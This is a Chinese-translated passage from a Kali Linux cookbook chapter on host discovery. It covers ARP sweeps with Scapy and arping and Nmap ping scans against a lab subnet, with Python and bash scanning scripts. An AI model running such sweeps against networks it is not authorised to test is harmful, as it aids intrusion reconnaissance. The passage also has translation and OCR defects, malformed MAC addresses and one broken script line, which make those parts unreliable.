- 使用 `Scapy` 进行第 3 层发现
- 使用 `Nmap` 进行第 3 层发现
- 使用 `fping` 进行第 3 层发现
- 使用 `hping3` 进行第 3 层发现
- 使用 `Scapy` 进行第 4 层发现
- 使用 `Nmap` 进行第 4 层发现
- 使用 `hping3` 进行第 4 层发现

*发现扫描*

在具体介绍每种扫描技术之前，我们应该先解决一些底层原理。开放系统互连（OSI）模型是国际标准组织（ISO）的一项标准，定义了网络系统如何通信。该模型被分为七层，定义了应用内容如何从一个系统发送并/或被另一个系统接收。OSI 模型的上层对终端用户来说更为可见，而下层对大多数普通用户来说是透明的。这些层包括：


# OSI 模型

## 层描述

### 协议

#### 第 7 层 – 应用层
该层涉及用于发送接收数据的应用软件，如 `HTTP`、`FTP` 和 `Telnet`。

### 第 6 层 – 表示层
该层定义了数据的格式或组织方式：`ASCII`、`JPEG`、`PDF`、`PNG` 和 `DOCX`。

### 层 – 会话层
该层涉及应用会话控制、管理、同步和终止：`NetBIOS`、`PPTP`、`RPC` 和 `SOCKS`。

### 第 4 层 – 传输层
该层涉及端到端通信服务：`TCP` 和 `UDP`。

### 第 3 层 – 网络层
该层涉及逻辑系统地址：`IPv4`、`IPv6`、`ICMP` 和 `IPSec`。

### 第 2 层 – 数据链路层
该层涉及物理系统地址：`ARP`。

### 第 1 层 – 物理层
该层涉及在传输线上传输的数据流。

---

OSI 模型的低层主要用于确保网络流量成功到达其预期目标。在这些低层中许多常用的协议都需要目标系统的响应，因此，潜在的攻击者可以利用它们来识别在线系统。本节其余部分讨论的技术将利用第 `2`、`3` 和 `4` 层协议来发现在线网络系统。在介绍每个具体的配方之前，我们将简要讨论所使用的协议以及如何利用它们进行资产发现。

使用 `ARP` 进行第 2 层发现的优缺点如下：

**优点：**
- 速度极快
- 高度可靠

**缺点：**
- 无法发现远程系统（不可路由协议）

第 2 层发现扫描是通过通过利用地址解析协议 (`ARP`) 流量完成的。`ARP` 是一种第 2 层协议，主要功能是将逻辑第 3 层 `IP` 地址转换为物理第 2 层 `MAC` 地址。当一个系统需要定位与目标 `IP` 地址对应的物理地址时，它会在本地网络网段上广播一个 `ARP` 请求包。此 `ARP` 请求仅仅是询问整个网络：“谁拥有这个 IP 地址？”具有指定 `IP` 地址的系统将直接向查询系统响应 `ARP` 回复，其中包含其第 2 层 `MAC` 地址。查询系统将更新其 `ARP` 缓存（`IP` 地址和 `MAC` 地址关联的临时记录），然后启动与主机的通信。`ARP` 协议在发现网络上的在线主机时非常有用，因为它在响应请求之前不采用任何形式的身份识别或授权。

结果，入侵者连接到本地网络并枚举在线主机是可能的，甚至是轻而易举的。这可以通过对完整的 `IP` 地址列表发送一系列 `ARP` 请求，然后记录收到响应的查询 `IP` 地址列表来实现。`ARP` 发现既有优点也有缺点。它在发现扫描中非常有用，因为它是最快且最可靠的发现协议。遗憾的是，它也是一种不可路由协议，只能用于发现本地子网上的主机。

使用 `ICMP` 进行第 3 层发现的优缺点如下：

**优点：**
- 可以发现远程系统（可路由协议）
- 仍然相对较快

**缺点：**
- 比 `ARP` 发现慢
- 经常被防火墙过滤

第 3 层发现可能是网络管理员和技术人员中最广为人知的常用的发现技术。在 `Windows` 和 `nix` 系统上自带的著名的 `ping` 命令行工具使用了第 3 层发现。这种形式的发现利用了互联网控制消息协议 (`ICMP`)。虽然 `ICMP` 有多个功能，但特别适用于识别在线主机的是回显请求（echo request）和回显响应（echo response）消息。`ICMP` 回显请求技术上等同于一个系统询问另一个系统：“你在吗？”。`ICMP` 回显响应是接收系统回答“我在”的方式。要确定特定 `IP` 地址是否存在主机，系统可以向该地址发送 `ICMP` 回显请求。如果存在该 `IP` 地址的主机且一切运行符合预期，该主机将返回 `ICMP` 回显应答。通过对完整的 `IP` 地址列表在循环中执行此序列，可以在主机发现中利用此协议。

输出将仅包含收到回复的 `IP` 地址列表。第 3 层发现之所以有效，是因为因为它使用了可路由协议来识别在线主机。然而，其使用也存在某些缺点。`ICMP` 发现没有 `ARP` 发现那么快。此外，`ICMP` 发现没有 `ARP` 发现那么可靠，因为某些主机被故意配置为不响应 `ICMP` 流量，防火墙经常被配置为丢弃 `ICMP` 流量。尽管如此，它仍然是在远程地址范围内发现潜在目标的快速常用方法。

第 4 层发现非常有效，因为公共可路由系统通常只位于公共 `IP` 空间，因为它们托管了通过传输控制协议 (`TCP`) 或用户数据报协议 (`UDP`) 可用的网络服务。在安全性较低的环境中可以通过向其 `IP` 地址发送几乎任何 `UDP` 或 `TCP` 请求来从远程服务器索取回复。然而，如果使用了状态过滤，可能仅通过指向与在线服务相关的端口地址的 `SYN` 请求来从远程服务索取响应。即使在具有高级过滤的高安全环境中，如果提供了正确的请求，在大多数情况下仍然可以发现。但是，由于 `UDP` 和 `TCP` 服务都有 65,536 个可能的端口地址，完全全面的发现过程可能会非常耗时。结合 `TCP` 和 `UDP` 技术进行第 4 层发现的最佳方法是在详尽性和效率之间找到最佳平衡。

使用 `TCP` 进行第 4 层发现的优缺点如下：

**优点：**
- 可以发现远程系统（可路由协议）
- 比 `ICMP` 更可靠（过滤器较少或仅选择性实现）

**缺点：**
- 状态防火墙过滤器可能会产生不可靠的结果
- 详尽的发现可能非常耗时

使用 `TCP` 进行第 4 层发现包括向激活了各种 `TCP` 标志位的目标地址发送 `TCP` 包。不同的标志配置可以触发各种响应，这些响应可用于识别在线主机。未请求的 `TCP` 结束 (`FIN`) 或确认 (`ACK`) 包通常会触发来自远程服务器的重置 (`RST`) 响应。发送到远程服务器的同步 (`SYN`) 包通常会根据服务的状态触发 `SYN+ACK` 或 `RST` 响应。其意图不是索取特定的响应，而是索取任何响应。来自给定 `IP` 地址的任何响应都是对该系统确实在线的确认。

使用 `UDP` 进行第 4 层发现的优缺点如下：

**优点：**
- 可以发现远程系统（可路由协议）
- 甚至可以发现所有 `TCP` 服务都被过滤的远程主机

**缺点：**
- `ICMP` 端口不可达响应的不一致使用和过滤使得无差别发现不可靠
- 服务特定的探测技术限制了详尽性并增加了所需的扫描时间

`UDP` 发现涉及向不同的目标端口发送 `UDP` 探测包，以尝试从在线主机索取响应。`UDP` 发现有时对于识别所有 `TCP` 服务都被过滤的主机非常有效。然而，`UDP` 发现可能棘手，因为某些 `UDP` 服务会用 `ICMP` 端口不可达响应响应 `UDP` 包，而其他服务则仅对与运行服务特定的唯一请求做出响应。


此外，ICMP 流量通常会受到防火墙出站限制的过滤过滤，这使得进行无差别的 UDP 发现变得非常困难。因此，有效的 UDP 发现扫描通常需要针对不同的服务采用不同的独特技术。

### 使用 Scapy 执行二层发现

Scapy 是一个强大的交互式工具，可用于捕获、分析、操纵甚至创建符合协议标准的网络流量，然后将其注入到网络中。

Scapy 也是一个可以在 Python 中使用的库，从而提供了创建极其高效脚本来执行网络流量处理和操纵的能力。本特定的配方将将如何如何使用 Scapy 执行 ARP 发现，以及如何使用 Python 和 Scapy 创建脚本来简化二层发现过程。

### 准备工作

要使用 Scapy 执行 ARP 发现，你需要在局域网（LAN）上至少有一个能够响应 ARP 请求的系统。在所提供的示例中，使用了 Linux 和 Windows 系统的组合。有关在本地实验环境中设置系统的更多详细信息，请参阅*第 1 章*，*入门*中的*安装 Metasploitable2* 和*安装 Windows Server* 菜方。此外，本节还需要使用文本编辑器（如 `VIM` 或 `Nano`）向文件系统写入脚本。有关编写脚本的更多详细信息，请参阅*第 1 章*，*入门*中的*使用文本编辑器（VIM 和 Nano）* 菜方。

### 如何操作……

为了理解 ARP 发现的工作原理，我们将开始使用 Scapy 构造自定义包，这将允许我们使用 ARP 识别局域网上的主机。要在 Kali Linux 中开始使用 Scapy，请在终端输入 `scapy` 命令。然后可以使用 `display()` 函数如下方式查看 Scapy 中创建的任何 ARP 对象的默认配置：

```bash
root@KaliLinux:~# scapy
Welcome to Scapy (2.2.0)

>>> ARP().display()
###[ ARP ]###
hwtype= 0x1
ptype= 0x800
hwlen= 6
plen= 4
op= who-has
hwsrc= 00:0c:29:fd:01:05
psrc= 172.16.36.232
hwdst= 00:00:00:00:00:00
pdst= 0.0.0.0
```

注意，IP 和 MAC 源地址都自动配置为与运行 Scapy 的主机相关联的值。除非你正在伪造另一个源地址，否则对于任何 Scapy 对象，这些值都永远不需要更改。

ARP 的默认操作码（opcode）值自动设置为 `who-has`，这意味着该数据包将请求 IP 和 MAC 关联。在这种情况下，我们只需要提供目标 IP 地址。为了实现这一点，我们可以使用 `ARP` 函数创建一个对象并将其赋值给变量。变量的名称并不重要（在提供的示例中，使用了变量名 `arp_request`）。请查看以下命令：

```python
>>> arp_request = ARP()
>>> arp_request.pdst = "172.16.36.135"
>>> arp_request.display()
###[ ARP ]###
hwtype= 0x1
ptype= 0x800
hwlen= 6
plen= 4
op= who-has
hwsrc= 00:0c:29:65:fc:d2
psrc= 172.16.36.132
hwdst= 00:00:00:00:00:00
pdst= 172.16.36.135
```

注意，`display()` 函数也可以应用于已创建的 ARP 对象，以验证配置值已更新。对于此练习，请使用对应于你实验室网络中活动机器的目标 IP 地址。然后可以使用 `sr1()` 函数将请求发送到线缆上并返回第一个响应：

```python
>>> sr1(arp_request)
Begin emission:
......................................*Finished to send 1 packets.
Received 39 packets, got 1 answers, remaining 0 packets
<ARP hwtype=0x1 ptype=0x800 hwlen=6 plen=4 op=is-at
hwsrc=00:0c:29:3d:84:32 psrc=172.16.36.135 hwdst=00:0c:29:65:fc:d2
pdst=172.16.36.132 |<Padding load='\x00\x00\x00\x00\x00\x00\x00\x00\x00\
x00\x00\x00\x00\x00\x00\x00\x00\x00' |>>
```

注意，在这些情况中，都返回了响应，表明 `172.16.36.135` 的 IP 地址位于 MAC 地址 `00:0C:29:3D:84:32`。如果你执行相同的任务，但分配了一个不对应于实验室网络中活动主机的目标 IP 地址，你将接收不到任何响应，且该函数将无限分析本地接口上的入站流量。

你可以使用 `Ctrl` + `C` 强制函数停止。或者，你可以指定一个超时（timeout）参数来避免这个问题。当在 Python 脚本中使用 Scapy 时，使用超时设置将变得至关重要。要使用超时，应向发送/接收函数提供额外的参数，指定等待传入响应的秒数：

```python
>>> arp_request.pdst = "172.16.36.134"
>>> sr1(arp_request, timeout=1)
Begin emission:
.........................................................................
............Finished to send 1 packets. .................................
.........................................................................
........................................
Received 3285 packets, got 0 answers, remaining 1 packets
>>>
```

通过使用超时函数，发送到无响应主机的请求将在指定时间后返回，表明捕获到 0 个答案。此外，此函数接收到的响应也可以赋值给变量，并可以通过调用该变量对响应进行后续处理：

```python
>>> response = sr1(arp_request, timeout=1)
Begin emission:
....................................*Finished to send 1 packets.
Received 37 packets, got 1 answers, remaining 0 packets
>>> response.display()
###[ ARP ]###
hwtype= 0x1
ptype= 0x800
hwlen= 6
plen= 4
op= is-at
hwsrc= 00:0c:29:3d:84:32
psrc= 172.16.36.135
hwdst= 00:0c:29:65:fc:d2
pdst= 172.16.36.132
###[ Padding ]###
load= '\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\**
x00\x00\x00'
```

或者，你可以通过直接调用函数并传递任何配置作为参数来执行相同任务，如下命令所示。这可以避免使用变量的杂乱，并允许一行代码完成整个任务：

```python
>>> sr1(ARP(pdst="172.16.36.135"))
Begin emission:
.........................*Finished to send 1 packets.
Received 26 packets, got 1 answers, remaining 0 packets
<ARP hwtype=0x1 ptype=0x800 hwlen=6 plen=4 op=is-at
hwsrc=00:0c:29:3d:84:32 psrc=172.16.36.135 hwdst=00:0c:29:65:fc:d2
pdst=172.16.36.132 |<Padding load='\x00\x00\x00\x00\x00\x00\x00\x00\x00\
x00\x00\x00\x00\x00\x00\x00\x00\x00' |>>
```

Scapy 还可以作为 Python 脚本语言中的库使用。这可以有效地自动化在 Scapy 中执行的重复任务。Python 和 Scapy 可以按顺序遍历局域网内所有可能的主机地址，并向每个地址发送 ARP 请求。一个用于对一系列主机主机执行二层发现的功能性脚本示例如下所示：

```python
#!/usr/bin/python
import logging
import subprocess
import sys
logging.getLogger("scapy.runtime").setLevel(logging.ERROR)
from scapy.all import *

if len(sys.argv) != 2:
    print "Usage - ./arp_disc.py [interface]"
    print "Example - ./arp_disc.py eth0"
    print "Example 将对分配给 eth0 的局域网进行 ARP 扫描"
    sys.exit()

interface = str(sys.argv[1])
ip = subprocess.check_output("ifconfig " + interface + " | grep 'inet addr' | cut -d ':' -f 2 | cut -d ' ' -f 1", shell=True).strip()
```


```python
prefix = ip.split('.')[0] + '.' + ip.split('.')[1] + '.' +
ip.split('.')[2] + '.'

for addr in range(0,254):
    answer=sr1(ARP(pdst=prefix+str(addr)),timeout=1,verbose=0)
    if answer == None:
        pass
    else:
        print prefix+str(addr)
```

脚本的第一行指示了 Python 解释器的位置，这样脚本就可以无需传递给解释器即可执行。随后脚本导入了所有的 Scapy 函数，并定义了 Scapy 日志级别以消除脚本中不必要的输出。还导入了 `subprocess` 库，以便于方便从系统调用中提取信息。第二个代码块是一个条件测试，用于评估是否为脚本提供了必需的参数。如果在执行时未提供必需参数，脚本将输出关于正确脚本用法的说明。该说明包含了工具的用法、一个示例以及对该示例将执行的任务的解释。

53



### 发现扫描

在此代码块之后，有一行孤立的代码，将提供的参数赋值给接口变量。下一个代码块利用 `subprocess` 的 `check_output()` 函数执行 `ifconfig` 系统调用，并同时利用 `grep` 和 `cut` 从作为参数提供的本地接口中提取 IP 地址。该输出随后被赋值给 `ip` 变量。然后使用 `split` 函数从 IP 地址字符串中提取出 `/24` 网络前缀。例如，如果 `ip` 变量包含 `192.168.11.4` 字符串，那么 `192.168.11.` 的值将被赋值给 `prefix` 变量。最后一个代码块是一个执行实际扫描的 `for` 循环。`for` 循环遍历 0 到 254 之间的所有值，每次迭代都会将该值附加到网络前缀之后。在之前提供的示例中，会对 `192.168.11.0` 到 `192.168.11.254` 之间的每个 IP 地址广播一个 `ARP` 请求。对于每个有响应的主机，相应的 IP 地址将打印到屏幕上，以指示该主机在局域网（LAN）上是存活的。一旦脚本被写入本地目录，你可以使用点和正斜杠加上执行脚本的在终端中执行它。查看以下执行该脚本的命令：

```
root@KaliLinux:~# ./arp_disc.py
Usage - ./arp_disc.py [interface]
Example - ./arp_disc.py eth0
Example 将对分配给 eth0 的本地子网进行 ARP 扫描
```

如果在未提供任何参数的情况下执行脚本，用法将输出到屏幕上。用法输出表明此脚本需要一个参数，用于定义应使用哪个 `interface` 来执行扫描。在下面的示例中，使用 `eth0` 接口执行脚本：

```
root@KaliLinux:~# ./arp_disc.py eth0
172.16.36.1
172.16.36.2
172.16.36.132
172.16.36.135
172.16.36.254
```

运行后，脚本将确定所提供接口的本地子网；在该子网上执行 ARP 扫描，然后根据这些 IP 所属主机的响应输出一个存活 IP 地址列表。此外，可以在脚本运行时同时运行 Wireshark，以观察请求如何顺序对每个地址进行广播，以及存活主机如何响应这些请求，如下截图所示：54

### 第二章

此外，人们可以轻松地将脚本的输出重定向到文本文件中，供后续分析使用。可以使用右括号后跟文本文件名来重定向输出。如下例如所示：

```
root@KaliLinux:~# ./arp_disc.py eth0 > output.txt
root@KaliLinux:~# ls output.txt
output.txt
root@KaliLinux:~# cat output.txt
172.16.36.1
172.16.36.2
172.16.36.132
172.16.36.135
172.16.36.254
```

一旦输出被重定向到输出文件，你可以使用 `ls` 命令验证文件是否已写入文件系统，或者使用 `cat` 命令查看文件内容。此脚本也可以轻松修改，以便仅对文本文件中包含的某些 IP 地址执行 ARP 请求。要实现这一点，我们首先需要创建一个我们想要扫描的 IP 地址列表。为此，你可以使用 `Nano` 或 `VIM` 文本编辑器。为了评估脚本的功能，请包含一些之前发现的存活地址，以及同一范围内其他一些随机选择的、不对应于任何存活主机的地址。若要在 `VIM` 或 `Nano` 中创建输入文件，请使用以下命令之一：

```
root@KaliLinux:~# vim iplist.txt
root@KaliLinux:~# nano iplist.txt
```

一旦创建了输入文件，你可以使用 `cat` 命令验证其内容。假设文件创建正确，你应该能看到在文本编辑器中输入的相同 IP 地址列表：

```
root@KaliLinux:~# cat iplist.txt
172.16.36.1
172.16.36.2
172.16.36.232
172.16.36.135
172.16.36.180
172.16.36.203
172.16.36.205
172.16.36.254
```

55

### 发现扫描

为了创建一个接受文本文件作为输入的脚本，我们可以修改上一个练习中的现有脚本，也可以创建一个新的脚本文件。为了在脚本中使用此 IP 地址列表，我们需要在 Python 中进行一些文件处理操作。一个运行脚本示例可能如下：

```python
#!/usr/bin/python
import logging
from scapy.all import *
import sys

logging.setLevel(logging.ERROR)

if len(sys.argv) != 2:
    print "Usage - ./arp_disc.py [filename]"
    print "Example - ./arp_disc.py iplist.txt"
    print "Example 将对 iplist.txt 中的 IP 地址进行 ARP 扫描"
    sys.exit()

filename = sys.argv[1]
file = open(filename,'r')

for addr in file:
    addr = addr.strip()
    answer = sr1(ARP(pdst=addr),timeout=1,verbose=0)
    if answer == None:
        pass
    else:
        print addr
```

此脚本与之前用于循环序列的脚本唯一真实区别在于创建了一个名为 `file` 的变量而不是 `interface`。然后使用 `open()` 函数通过打开 `iplist.txt` 文件来创建一个对象。`r` 值也被传递给该函数以指定只读访问。`for` 循环遍历文件中的每个 IP 地址，然后输出响应广播 ARP 请求的 IP 地址。此脚本像之前讨论的那样执行：

```
root@KaliLinux:~# ./arp_disc.py
Usage - ./arp_disc.py [filename]
Example - ./arp_disc.py iplist.txt
Example 将对 iplist.txt 中的 IP 地址进行 ARP 扫描
```

如果在未提供任何参数的情况下执行脚本，用法将输出到屏幕上。用法输出表明此脚本需要一个参数，用于定义要扫描的 IP 地址列表。在下面的示例中，使用执行目录下的 `iplist.txt` 文件执行脚本：

```
root@KaliLinux:~# ./arp_disc.py iplist.txt
172.16.36.2
172.16.36.1
172.16.36.132
172.16.36.135
172.16.36.254
```

运行后，脚本将仅输出输入文件中且响应 ARP 请求流量的 IP 地址。这些地址中的每一个都代表局域网上存活的系统。与之前讨论相同，此脚本的输出可以轻松地使用右括号后所需的输出文件名重定向到文件：`root@KaliLinux:~# ./arp_disc.py iplist.txt > output.txt`

**root@KaliLinux:~# ls output.txt
output.txt
root@KaliLinux:~# cat output.txt
172.16.36.2
172.16.36.1
172.16.36.132
172.16.36.135
172.16.36.254**


172.16.36.135

172.16.36.254

一旦输出被重定向到输出文件，你可以使用 `ls` 命令验证该文件是否已写入文件系统，或者可以使用 `cat` 命令查看文件内容。

### 工作原理……

在 Scapy 中，通过使用 `sr1()`（发送/接收一个）函数可以实现 ARP 发现。该函数根据提供的参数注入一个数据包，然后等待接收单个响应。在这种情况下，会广播一个单一 ARP 请求，函数将返回该响应。Scapy 库使得这种技术能够易于集成到脚本中，并允许对多个系统进行测试。

### 发现扫描

### 使用 ARPing 执行二层发现

`arp` 是一个命令行网络实用程序，其功能与常用的 `ping` 实用类似。该工具通过提供指定的 IP 地址作为参数，可以识别本地网络上是否存在处于该 IP 地址的活动主机。本本教程将讨论如何使用 `ARPing` 扫描网络上的活动主机。

### 准备工作

要使用 `ARPing` 执行 ARP 发现，你的局域网（LAN）上至少需要一个能够响应 ARP 请求的系统。在提供的示例中，使用了 Linux 和 Windows 系统的组合。有关关于在本地实验环境中设置系统的更多信息，请参考`第 1 章，入门指南`中的 `安装 Metasploitable2` 和 `安装 Windows Server` 教程。此外，此部分还需要使用 `VIM` 或 `Nano` 等文本编辑器向文件系统写入脚本。有关关于编写脚本的更多信息，请参考`第 1 章，入门指南`中的`使用文本编辑器 (VIM and Nano)` 教程。

### 如何操作……

`arping` 是一个可以发送 ARP 请求并识别主机是否存且有响应的工具。只需将 IP 地址作为参数传递给该工具即可：

```bash
root@KaliLinux:~# arping 172.16.36.135 -c 1
ARPING 172.16.36.135
60 bytes from 00:0c:29:3d:84:32 (172.16.36.135): index=0 time=249.000 usec
--- 172.16.36.135 statistics ---
1 packets transmitted, 1 packets received, 0% unanswered (0 extra)
```

在提供的示例中，向广播地址发送了一个单一的 ARP 请求，请求 `172.16.36.135` IP 地址的物理位置。如输出所示，MAC 地址为 `00:0C:29:3D:84:32` 的主机接收到了一个回复。如果使用 `bash` 脚本同时在多个主机上执行此操作，该工具可以更有效地用于二层发现扫描。为了测试 `bash` 中每个实例的响应，我们应该确定一个包含在响应中的唯一字符串，该字符串表示存在活动主机，但在未收到响应时不会包含该字符串。为了识别唯一字符串，应该对一个无响应的 IP 地址发送 `ARPing` 请求：

```bash
root@KaliLinux:~# arping 172.16.36.136 -c 1
ARPING 172.16.36.136
--- 172.16.36.136 statistics ---
1 packets transmitted, 0 packets received, 100% unanswered (0 extra)
```

通过分析成功和失败的 `arpings` 的不同响应，人们可能会注意到，字符串中的唯一字节仅在提供的 IP 地址关联有活动主机时才会存在于响应中，而且它位于包含该 IP 地址的行内。通过对此响应进行 `grepping`，我们可以提取出每个响应主机的 IP 地址：

```bash
root@KaliLinux:~# arping -c 1 172.16.36.135 | grep "bytes from"
60 bytes from 00:0c:29:3d:84:32 (172.16.36.135): index=0 time=291.000 usec
root@KaliLinux:~# arping -c 1 172.16.36.136 | grep "bytes from"
root@KaliLinux:~#
```

在对实际主机 IP 执行 `ARPing` 时，`Grepping` 这一唯一字符串会返回一个包含该 IP 地址的行，如上一组命令中的第一个响应所示。对未与实际主机关联的 IP 地址执行相同任务将返回空结果，如上一组命令中的最后一个响应所示。

使用带有特殊构造的分隔符 `-d` 和字段 (`-f`) 值的 `cut` 命令，我们可以快速地从此字符串中提取 IP 地址。命令行函数 `cut` 可用于 `bash` 中，根据指定的分隔符将行分割为数组。然后可以通过指定字段从 `cut` 函数中返回特定值。通过多次对输出进行管道，我们可以轻松地从返回的字符串中提取 MAC 地址。请看下组命令：

```bash
root@KaliLinux:~# arping -c 1 172.16.36.135 | grep "bytes from"
60 bytes from 00:0c:29:3d:84:32 (172.16.36.135): index=0 time=10.000 usec
root@KaliLinux:~# arping -c 1 172.16.36.135 | grep "bytes from" | cut -d " " -f 4
00:0c:29:3d:84:32
```

我们只需通过操作传递 `cut` 函数的分隔符和字段值，即可轻松地从返回的字符串中提取 IP 地址：

```bash
root@KaliLinux:~# arping -c 1 172.16.36.135 | grep "bytes from"
60 bytes from 00:0c:29:3d:84:32 (172.16.36.135): index=0 time=328.000 usec
root@KaliLinux:~# arping -c 1 172.16.36.135 | grep "bytes from" | cut -d " " -f 5
(172.16.36.135):
root@KaliLinux:~# arping -c 1 172.16.36.135 | grep "bytes from" | cut -d " " -f 5 | cut -d "(" -f 2
172.16.36.135):
root@KaliLinux:~# arping -c 1 172.16.36.135 | grep "bytes from" | cut -d " " -f 5 | cut -d "(" -f 2 | cut -d ")" -f 1
172.16.36.135
```

在识别出如何从成功的 `ARPing` 响应中提取 IP 地址后，我们可以轻松地将此任务通过 `bash` 脚本中的循环传递，并输出活动地址列表。下面是一个使用此技术的脚本示例：

```bash
#!/bin/bash
if [ "$#" -ne 1 ]; then
    echo "Usage: ./arping.sh [interface]"
    echo "Example: ./arping.sh eth0"
    exit
fi

interface=$1
prefix=$(ifconfig $interface | grep 'inet addr' | cut -d ':' -f 2 | cut -d ' ' -f 1 | cut -d '.' -f 1-3)

for addr in $(seq 1 254); do
    arping -c 1 $prefix.$addr | grep "bytes from" | cut -d " " -f 5 | cut -d "(" -f 2 | cut -d ")" -f 1 &
done
```

在上面的脚本中，第一行定义了 `bash` 解释器的位置。后续代码块执行测试以确定是否提供了预期的参数。这通过评估提供的参数数量是否等于 1 来确定。如果没有提供预期的参数，将输出脚本的用法并退出。用法输出表明脚本期望本地接口名称作为参数。下一块代码将所的参数分配给 `interface` 变量。然后将接口值传递给 `ifconfig`，并使用其输出提取网络前缀。例如，如果提供的接口 IP 地址为 `192.168.11.4`，则 `prefix` 变量将赋值为 `192.168.11`。随后使用 `for` 循环遍历最后一个八字节的值，以生成本地 /24 网络中所有可能的 IP 地址。对于每个可能的 IP 地址，都会执行单一的 `arping` 命令。这些请求的每个响应都会通过管道处理，然后使用 `grep` 提取包含 "bytes from" 短的行。如前所述，这将仅提取包含活动主机 IP 地址的行。最后，使用一系列 `cut` 函数从该输出中提取 IP 地址。


# 示例 - ./arping.sh eth0

示例将对 `eth0` 所分配的本地子网进行 ARP 扫描。

第 2 章

```
root@KaliLinux:~# ./arping.sh eth0
172.16.36.1
172.16.36.2
172.16.36.132
172.16.36.135
172.16.36.254
```

可以很容易地将脚本的输出重定向到文本文件中，然后用于后续分析。可以使用右括号 `>` 加上文本文件名来重定向输出。示例如所示：

```
root@KaliLinux:~# ./arping.sh eth0 > output.txt
root@KaliLinux:~# ls output.txt
output.txt
root@KaliLinux:~# cat output.txt
172.16.36.1
172.16.36.2
172.16.36.132
172.16.36.135
172.16.36.254
```

一旦输出被重定向到输出文件，你可以使用 `ls` 命令验证该文件是否已写入文件系统，或者使用 `cat` 命令查看文件内容。该脚本也可以修改为从输入文件读取，并仅验证此文件中列出的主机是否存活。对于接下来的脚本，你需要一个包含 IP 地址列表的输入文件。为此，我们可以使用之前配方中讨论的 Scapy 脚本相同的输入文件：

```bash
#!/bin/bash
if [ "$#" -ne 1 ]; then
  echo "Usage - ./arping.sh [input file]"
  echo "Example - ./arping.sh iplist.txt"
  echo "示例将对 iplist.txt 中定义的所有 IP 地址进行 ARP 扫描"
  exit
fi

file=$1

for addr in $(cat $file); do
  arping -c 1 $addr | grep "bytes from" | cut -d " " -f 5 | cut -d "(" -f 2 | cut -d ")" -f 1 &
done
```

## 发现扫描

此脚本与前一个脚本的主要区别在于，在执行脚本时提供的不是接口名称，而是输入列表的文件名。该参数被传递给变量 `file`。然后使用 `for` 循环遍历文件中的每个值以执行 ARPing 任务。要执行该脚本，请使用点和正斜杠 `./`，后跟可执行脚本名称：

```
root@KaliLinux:~# ./arping.sh
Usage - ./arping.sh [input file]
Example - ./arping.sh iplist.txt
示例将对 iplist.txt 中定义的所有 IP 地址进行 ARP 扫描
root@KaliLinux:~# ./arping.sh iplist.txt
172.16.36.1
172.16.36.2
172.16.36.132
172.16.36.135
172.16.36.254
```

在提供任何参数的情况下执行脚本将返回脚本的用法。此用法指示应提供一个输入文件作为参数。这样做后，脚本将执行，并从 IP 地址列表中返回存活的 IP 地址列表。

与之前讨论一样，可以使用右括号 `>` 将此脚本的输出轻松地重定向到输出文件。示例如下：

```
root@KaliLinux:~# ./arping.sh iplist.txt > output.txt
root@KaliLinux:~# ls output.txt
output.txt
root@KaliLinux:~# cat output.txt
172.16.36.1
172.16.36.2
172.16.36.132
172.16.36.135
172.16.36.254
```

一旦输出被重定向到输出文件，你可以使用 `ls` 命令验证该文件是否已写入文件系统，或者使用 `cat` 命令查看文件内容。

### 工作原理

ARPing 是一个旨在用于验证单个主机是否在线的工具。然而，它使用的的简单性使其易于在 bash 中进行操作，以顺序扫描多个主机。这是通过循环一系列 IP 地址实现的，然后将这些地址作为参数提供给工具。

第 2 章

## 使用 Nmap 执行第 2 层发现

Network Mapper (`Nmap`) 是 Kali Linux 中最有效且功能强大的工具之一。Nmap 可用于许多不同的扫描技术，并具有高度的可定制性。在本书中将会介绍该工具。在这个特定的配方中，我们将讨论如何使用 Nmap 执行第 2 层扫描。

### 准备工作

要使用 Nmap 执行 ARP 发现，你需要在局域网上至少有一个能够响应 ARP 请求的系统。在提供的示例中，使用了 Linux 和 Windows 系统的组合。有关在本地实验环境中设置环境的更多信息，请参考*第 1 章，入门*中的*安装 Metasploitable2* 和*安装 Windows Server* 配方。

### 如何操作……

Nmap 是另一个通过单个命令执行自动化第 2 层发现扫描的选项。`-sn` 选项被 Nmap 称为 ping 扫描。虽然“ping 扫描”术语自然让你认为正在进行第 3 层发现，但它实际上是自适应的。假设指定的地址位于同一本地子网上，可以使用以下命令执行第 2 层扫描：

```
root@KaliLinux:~# nmap 172.16.36.135 -sn
Starting Nmap 6.25 ( http://nmap.org ) at 2013-12-16 15:40 EST
Nmap scan report for 172.16.36.135
Host is up (0.00038s latency).
MAC Address: 00:0C:29:3D:84:32 (VMware)
Nmap done: 1 IP address (1 host up) scanned in 0
```

此命令将向局域网发送 ARP 请求并根据接收到的响应判断主机是否存活。或者，如果针对某个 IP 地址使用命令，响应将指示该主机是否在线：

```
root@KaliLinux:~# nmap 172.16.36.136 -sn
Starting Nmap 6.25 ( http://nmap.org ) at 2013-12-16 15:51 EST
Note: Host seems down. 如果它真的在线，但我们的 ping 探测被拦截了，请尝试 -Pn
Nmap done: 1 IP address (0 hosts up) scanned in 0
```

发现

此命令可以修改为对一系列 IP 地址进行第 2 层发现。要扫描整个 /24 范围，可以使用连字符：

```
root@KaliLinux:~# nmap 172.16.36.0-255 -sn
Starting Nmap 6.25 ( http://nmap.org ) at 2013-12-16 16:05 EST
Nmap scan report for 172.16.36.1
Host is up (0.00027s latency).
MAC Address: 00:50:56:C0:00:08 (VMware)
Nmap scan report for 172.16.36.2
Host is up (0.00032s latency).
MAC Address: 00:50:56:FF:2A:8E (VMware)
Nmap scan report for 172.16.36.132
Host is up (0.00051s latency).
MAC Address: 00:0C:29:3D:84:32 (VMware)
Nmap scan report for 172.16.36.135
Host is up (0.00014s latency).
MAC Address: 00:0C:29:65:FC:D2 (VMware)
Nmap scan report for 172.16.36.200
Host is up (0.00026s latency).
MAC Address: 00:5C:26:EA::4:3A (VMware)
Nmap scan report for 172.16.36.254
Host is up (0.00015s latency).
MAC Address: 00:50:56:B9:9C (VMware)
Nmap done: 256 IP addresses (6 hosts up) scanned in 3.22
```

使用此命令将向该范围内的所有主机发送 ARP 请求，并确定活动响应的主机。此扫描也可以针对 IP 地址列表执行，使用 `-iL` 选项：

```
root@KaliLinux:~# nmap -iL iplist.txt -sn
Starting Nmap 6.25 ( http://nmap.org ) at 2013-12-16 16:07 EST
Nmap scan report for 172.16.36.2
Host is up (0.00026s latency).
